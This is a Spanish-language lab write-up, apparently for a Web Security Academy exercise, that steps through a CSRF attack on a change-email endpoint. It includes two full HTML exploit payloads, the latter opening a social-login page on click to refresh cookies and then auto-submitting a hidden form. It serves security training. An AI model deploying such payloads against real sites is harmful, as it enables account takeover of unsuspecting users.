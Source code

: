 
![[Pasted image 20230704201219.png]]

me logeo, actualizo correo y voy a Home

![[Pasted image 20230704201319.png]]

![[Pasted image 20230704201417.png]]

![[Pasted image 20230704201446.png]]

![[Pasted image 20230704201517.png]]

![[Pasted image 20230704201551.png]]

el endpoint change-email lo mando al repeater:

![[Pasted image 20230704201711.png]]

en el repeater uso la secuecia Engagement Tools -> Generate CSRF Attack

![[Pasted image 20230704201905.png]]

copio el payload tal y como esta para llevarlo al exploit server:

<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a5800650329170783f4069500ba00f3.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hackme&#64;myhacking&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

![[Pasted image 20230704202059.png]]

hago un cambio en el correo para verificar operacion:

![[Pasted image 20230704202148.png]]

agrego estos elementos al payload:

script
	window.onclick = () =>  {
		window.open('https://YOURLABID.net/social-login');
		setTimeout(changeEmail, 5000);
	}
![[Pasted image 20230704202527.png]]


actualizo el link del lab y agrego una linea abajo:

![[Pasted image 20230704202732.png]]

le doy store y deploy para verificar el cambio:

![[Pasted image 20230704203421.png]]

aca no cambio entonces vamos a agregarle al payload estas lineas:

![[Pasted image 20230704203608.png]]

este es el payload completo:

<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a5800650329170783f4069500ba00f3.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hackme01&#64;myhacking&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
         window.onclick = () =>  {
		window.open('https://0a5800650329170783f4069500ba00f3.web-security-academy.net/social-login');
		setTimeout(changeEmail, 5000);
	}

       function changeEmail() {
                document.forms[0].submit();
       }
    </script>
  </body>
</html>


damos Store y Deploy to the victim y espero un minuto aprox:

![[Pasted image 20230704203751.png]]



